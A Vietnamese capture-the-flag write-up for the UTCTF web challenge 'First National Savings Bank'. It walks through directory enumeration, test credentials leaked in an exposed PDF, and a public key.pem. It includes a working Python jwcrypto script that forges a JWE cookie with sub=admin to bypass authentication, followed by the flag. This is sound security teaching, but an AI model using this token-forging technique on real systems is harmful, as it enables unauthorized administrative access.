

# Write-up WEB CTF – First National Savings Bank

## Mô tả ngắn

Bài này là một web challenge theo kiểu chain nhiều lỗi nhỏ ghép lại với nhau. Điểm mấu chốt không nằm ở brute force hay injection phức tạp, mà nằm ở việc quan sát các tài nguyên public bị lộ và tận dụng chúng để forge token admin.

Flow đúng của bài là:

* enumerate path để tìm `/resources`
* vào `/resources/` và thấy directory listing
* mở PDF để lấy credential test
* đăng nhập trực tiếp trên web
* tìm `key.pem` bị lộ
* dùng `key.pem` để forge token JWE có `sub=admin`
* sửa cookie `fnsb_token`
* vào `/admin` và lấy flag

---

## 1. Dùng dirsearch để tìm thư mục quan trọng

Bước đầu tiên là enumerate path của web.

```bash
dirsearch -u http://challenge.utctf.live:5926/
```

Kết quả đáng chú ý nhất là thấy được path:

```text
/resources
```

Đây là điểm cần chú ý ngay, vì trước đó challenge đã có dấu hiệu tồn tại các file public như PDF hướng dẫn trong thư mục này.

---

## 2. Mở `/resources/` và phát hiện directory listing

Sau khi thấy `/resources`, truy cập trực tiếp trên browser:

```text
http://challenge.utctf.live:5926/resources/
```

Trang này trả về directory listing, hiển thị các file bên trong thư mục:

* `memo.txt`
* `key.pem`
* `FNSB_InternetBanking_Guide.pdf`

Đây là lỗ hổng quan trọng nhất của bài: **directory listing enabled** làm lộ file nội bộ ra ngoài.

Trong ba file này:

* `FNSB_InternetBanking_Guide.pdf` dùng để lấy credential test
* `memo.txt` là memo nội bộ, củng cố thêm ngữ cảnh về hệ thống
* `key.pem` là file quan trọng nhất để đi tới admin

---

## 3. Mở PDF để lấy credential test

Từ file:

```text
/resources/FNSB_InternetBanking_Guide.pdf
```

có thể đọc được demo login credentials:

* Username: `testuser`
* Password: `testpass123`

Đây là bước giúp có được một phiên đăng nhập hợp lệ trên hệ thống.

---

## 4. Đăng nhập trực tiếp trên web

Dùng credential vừa lấy được để đăng nhập trực tiếp trên giao diện web:

* Username: `testuser`
* Password: `testpass123`

Sau khi đăng nhập thành công, mở **Developer Tools** bằng `F12`, vào tab **Application** hoặc **Storage**, rồi xem mục **Cookies**.

Lúc này có thể thấy hệ thống set cookie:

```text
fnsb_token
```

Điểm quan trọng ở đây là: hệ thống đang dùng cơ chế xác thực dựa trên token, không phải session ID ngẫu nhiên kiểu cũ.

---

## 5. Thử vào `/admin`

Sau khi đã login bằng account test, truy cập trực tiếp:

```text
http://challenge.utctf.live:5926/admin
```

Kết quả là không thể vào trang admin bằng account thường. Điều đó cho thấy `testuser` chỉ là account hợp lệ để login, nhưng không có quyền quản trị.

Tới đây hướng đi hợp lý không còn là bypass login nữa, mà là tìm cách tạo một token khác có quyền cao hơn.

Nói cách khác:

* account test giúp lấy được phiên đăng nhập hợp lệ
* nhưng muốn vào `/admin` thì cần token có quyền admin
* do đó bước tiếp theo là phân tích token và tìm cách forge token admin

---

## 6. Nhận ra token là JWE, không phải JWT thường

Cookie `fnsb_token` có dạng token nhiều phần và khi phân tích header sẽ cho thấy:

```json
{"cty":"JWT","enc":"A256GCM","alg":"RSA-OAEP-256"}
```

Điều này cho biết token là **JWE** chứ không phải JWT thường.

Ý nghĩa của nó là:

* payload bị mã hóa
* không thể sửa trực tiếp bằng cách base64 decode rồi thay nội dung
* nếu lấy được key phù hợp, có thể tự tạo một token mới mà server chấp nhận

Đây là lý do file `key.pem` trong `/resources/` trở nên cực kỳ quan trọng.

---

## 7. Tải `key.pem`

Quay lại `/resources/` và mở file:

```text
http://challenge.utctf.live:5926/resources/key.pem
```

Nội dung đầu file cho thấy đây là:

```pem
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAsio2dcXheqKLrteRx4V1
7FchW6AE2zszlMyiN8S7D16ww1a9AFC8EQhEHNW1PLXncXiimNeb6/oZP2+V18gE
ZoyKIET2oHC4MmthSOFrW0nFgfgRJdH7VyEVHupFL6tFAJvHFWVplTgCdqtegihG
cG7XKUGah4Q8FytlIhk/A983LtbblhAnfKTeBwxT2wVZE9+5pWhPmdGLoX3Hf0Uy
pHJTkL6D7C4X4KGJiNrSJ6mJw4sDpXlZEvagB0uFaO4b22WX6HSf2ZOBW5VHEWS5
TiKvliyTQL3FJWXefqxHgQL8diDWhWwYXI7Q0b+otJ5/G/jMGL2S+N10oJTitTuK
OQIDAQAB
-----END PUBLIC KEY-----
```

Nhiều người dễ nhầm rằng phải có private key mới forge được token. Nhưng ở đây token là **JWE** với:

* `alg = RSA-OAEP-256`
* `enc = A256GCM`

Với kiểu này:

* **public key** dùng để **encrypt** token
* server giữ **private key** để **decrypt** token

Do đó chỉ cần public key là đủ để tạo một token mới mà server sẽ đọc được.

Đây là điểm mấu chốt nhất của bài.

---

## 8. Dùng Python để forge token admin

Mục tiêu bây giờ là tạo một JWE mới với payload:

```json
{"sub":"admin"}
```

Đây là payload hợp lý nhất vì route admin chỉ cần token có subject là admin.

### Cài môi trường

```bash
python3 -m venv venv
source venv/bin/activate
pip install jwcrypto
```

### Script forge token

```python
from jwcrypto import jwk, jwe
import json

with open("key.pem", "rb") as f:
    pem = f.read()

key = jwk.JWK.from_pem(pem)

payload = json.dumps({"sub": "admin"}).encode()

token = jwe.JWE(
    plaintext=payload,
    protected={
        "alg": "RSA-OAEP-256",
        "enc": "A256GCM",
        "cty": "JWT"
    }
)

token.add_recipient(key)
print(token.serialize(compact=True))
```

Chạy script sẽ in ra forged token.

---

## 9. Sửa cookie trực tiếp trên web

Quay lại browser, mở **Developer Tools**:

* vào tab **Application / Storage**
* chọn **Cookies**
* tìm cookie `fnsb_token`
* thay giá trị hiện tại bằng token forged vừa tạo

Sau khi sửa xong, reload trang hoặc truy cập trực tiếp:

```text
http://challenge.utctf.live:5926/admin
```

---

## 10. Vào admin và lấy flag

Sau khi token forged được server chấp nhận, trang admin console hiện ra.

Trong trang này có block hiển thị flag:



---

## Flag

```text
utflag{s0m3_c00k1es_@re_t@st13r_th@n_0th3rs}
```

---

## Kết luận lỗ hổng

Chuỗi lỗ hổng của bài gồm:

1. **Directory listing enabled** tại `/resources/`
2. **Information disclosure** qua PDF và các file nội bộ
3. **Exposed key material** (`key.pem` public trên web)
4. **Token-based authorization yếu**, chỉ cần token hợp lệ có `sub=admin`

Kết quả cuối cùng là:

**Authentication bypass via forged JWE token**
